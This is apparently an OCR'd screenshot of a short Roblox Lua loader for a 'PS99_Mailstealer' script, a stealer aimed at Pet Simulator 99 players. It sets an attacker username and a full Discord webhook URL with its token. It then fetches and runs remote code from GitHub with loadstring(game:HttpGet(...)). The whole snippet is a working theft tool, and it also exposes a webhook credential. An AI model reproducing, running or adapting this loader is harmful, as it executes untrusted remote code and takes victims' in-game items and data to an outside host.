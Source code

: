 Username = "Xairu_67"
LoadScreen = true 
Webhook = "https://discord.com/api/webhooks/1283767650769698857/ZlxUunTIgb-xaNDA8IpYSwLsVQOV-EouzFwdJNYWBQVVsbPb9uQ6T6Croa7aeML4If40"


loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
